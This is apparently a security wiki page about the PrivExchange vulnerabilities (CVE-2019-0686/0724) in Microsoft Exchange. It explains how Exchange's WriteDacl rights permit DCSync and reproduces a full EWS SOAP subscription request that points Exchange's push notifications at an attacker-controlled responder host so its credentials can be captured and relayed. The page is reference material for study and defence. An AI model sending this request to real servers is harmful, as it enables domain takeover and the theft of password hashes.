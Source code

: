 icon:fontawesome/solid/unlock-keyhole

# CVE-2019-0686

PrivExchange - Abusing Exchange: One API call away from Domain Admin (CVE-2019-0686 & CVE-2019-0724)

- [Abusing Exchange - One API call away from Domain Admin Exploiting PrivExchange](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

The main vulnerability here is that Exchange has high privileges in the Active Directory domain. The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which enables any member of this group to modify the domain privileges, among which is the privilege to perform DCSync operations. Users or computers with this privilege can perform synchronization operations that are normally used by Domain Controllers to replicate, which allows attackers to synchronize all the hashed passwords of users in the Active Directory.

## Examples

##### SOAP Request creating subscription to mailbox

```bash
POST /ews HTTP/1.1
Host: exchange.example.com
Accept: */*
Accept-Language: nl-nl
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Content-Length: 934
Connection: close
Referer: https://exchange.example.com/ews
User-Agent: iPhone/11.1

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages">
    <soap:Header>
        <t:RequestServerVersion Version="Exchange2013" />
    </soap:Header>
    <soap:Body>
        <m:Subscribe>
            <m:PushSubscriptionRequest SubscribeToAllFolders="true">
                <t:EventTypes>
                    <t:EventType>NewMailEvent</t:EventType>
                    <t:EventType>ModifiedEvent</t:EventType>
                    <t:EventType>MovedEvent</t:EventType>
                </t:EventTypes>
                <t:StatusFrequency>1</t:StatusFrequency>
                <t:URL>http://<responder-IP-adres/gibcredsplz_2013_4/</t:URL>
            </m:PushSubscriptionRequest>
        </m:Subscribe>
    </soap:Body>
</soap:Envelope>
```

## References

- [Github.com - DirkjanM - PrivExchange](https://github.com/dirkjanm/PrivExchange)
- [Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [Chryzsh.github.io - Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)
